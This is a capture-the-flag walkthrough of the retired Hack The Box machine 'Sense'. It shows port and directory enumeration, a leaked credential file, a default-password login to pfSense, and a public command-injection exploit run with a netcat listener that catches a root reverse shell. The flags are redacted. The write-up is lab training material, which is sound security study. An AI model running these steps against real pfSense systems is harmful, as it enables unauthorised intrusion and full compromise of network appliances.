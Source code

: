 ```yaml
---
layout: post
title: "HTB-Sense"
date: 2020-02-16 13:56:00 +0000
categories: HTB-Walkthrough
---
```


![sense](/assets/img/sense.png)

Sense is another straightforward retired HTB box. Its OSCP-like in that enumeration reveals a known vulnerability, and public exploit that enables us to compromise it.

Nmap scans first then...

`nmap -sV -Pn --min-rate 10000 -p- 10.10.10.60 |tee -a sense.txt`

```

PORT    STATE SERVICE    VERSION
80/tcp  open  http       lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
443/tcp open  ssl/https?
|_ssl-date: TLS randomness does not represent time
Host is up (0.11s latency).
Not shown: 65533 filtered ports
PORT    STATE SERVICE    VERSION
80/tcp  open  http       lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
443/tcp open  ssl/https?
|_ssl-date: TLS randomness does not represent time

```

Port 80 redirects us to the https port (443).

Gobuster is a great directory-brute forcer (like dirb and dirbuster) which is fast and easy to use.

when using it against https its often easiest to use the `-k` flag to avoid ssl/tls problems which could make the enumeration fail.

`gobuster -u https://10.10.10.60/ -w /root/wordlists/SecLists/Discovery/Web-Content/common.txt -x .sh,.php,.asp -k`
Starting with a common.txt file to use with it, if nothing is found we could progress to something more comprehensive, but would take longer.
You can also speed things up with increasing the threads that gobuster uses, 50 for example...with a `-t 50` flag...but I didnt in this instance.

```

=====================================================
Gobuster v2.0.0              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : https://10.10.10.60/
[+] Threads      : 10
[+] Wordlist     : /root/wordlists/SecLists/Discovery/Web-Content/common.txt
[+] Status codes : 200,204,301,302,307,403
[+] Extensions   : php,asp,sh
[+] Timeout      : 10s
=====================================================
2019/11/12 12:06:05 Starting gobuster
=====================================================
/classes (Status: 301)
/css (Status: 301)
/edit.php (Status: 200)
/exec.php (Status: 200)
/favicon.ico (Status: 200)
/graph.php (Status: 200)
/help.php (Status: 200)
/includes (Status: 301)
/index.html (Status: 200)
/index.php (Status: 200)
/index.php (Status: 200)
/installer (Status: 301)
/javascript (Status: 301)
/license.php (Status: 200)
/pkg.php (Status: 200)
/stats.php (Status: 200)
/status.php (Status: 200)
/system.php (Status: 200)
/themes (Status: 301)
/tree (Status: 301)
/widgets (Status: 301)
/xmlrpc.php (Status: 200)
/xmlrpc.php (Status: 200)
=====================================================
2019/11/12 12:09:26 Finished
=====================================================

```

Gobuster gives us a bunch of goodies to investigate, but nothing seems to give us any real progress;
We can see that the server is using 'pfsense', but we cant login with any of the normal admin/admin creds or other weak variants.
Searching online for default creds we find some (admin/pfsense), but they don't work.

Perhaps we're missing something, we tried gobuster with a limited common list initially, so we'll try again with a better directory list.
Dirbuster comes with a very reliable set of files to use, but I prefer to use them with gobuster.

`gobuster -u https://10.10.10.60/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .txt -k -t 50`

This takes a lot longer, and does return something more interesting
`/system-users.txt`

browsing to the page we find a snippet of information which shouldn't be publicly accessible...


```

####Support ticket###

Please create the following user


username: Rohit
password: company defaults

```

We try to login again with username:rohit and password:pfsense, and sucessfully gain access to the pfsense dashboard.


We can search online, google, or the exploitdb website for known exploits, or just use searchsploit from the kali terminal...

```

root@kali:~/HTB/prep/sense# searchsploit pfsense 2.1.
------------------------------------------ ----------------------------------------
 Exploit Title                            |  Path
                                          | (/usr/share/exploitdb/)
------------------------------------------ ----------------------------------------
pfSense < 2.1.4 - 'status_rrd_graph_img.p | exploits/php/webapps/43560.py
------------------------------------------ ----------------------------------------
Shellcodes: No Result

```

Copy the exploit, read it carefully to find out how to use it, and what it does....then give it a try...

Dont forget to set an nc listener ready to catch the reverse shell...

```

root@kali:~/HTB/prep/sense# python3 pfsense.py --rhost 10.10.10.60 --lhost 10.10.14.34 --lport 6969 --username rohit --password pfsense
CSRF token obtained
Running exploit...
Exploit completed

```

The exploit works a treat, and gives us a lovely shell...

```

root@kali:~/HTB/prep/sense# nc -nlvp 6969
listening on [any] 6969 ...
connect to [10.10.14.34] from (UNKNOWN) [10.10.10.60] 2334
sh: can't access tty; job control turned off
# id
uid=0(root) gid=0(wheel) groups=0(wheel)
# cat /root/root.txt
dxxxxxxxxxxxxxxxxxxxxxxxxxxxx6
# ls /home
.snap
rohit
# cat /home/rohit/user.txt
8xxxxxxxxxxxxxxxxxxxxxxxxxxxxb 
# hostname
pfSense.localdomain
# whoami
root
# 

```
Flags are obfuscated because SPOILERS....(he says giving you a step-by-step !!!)

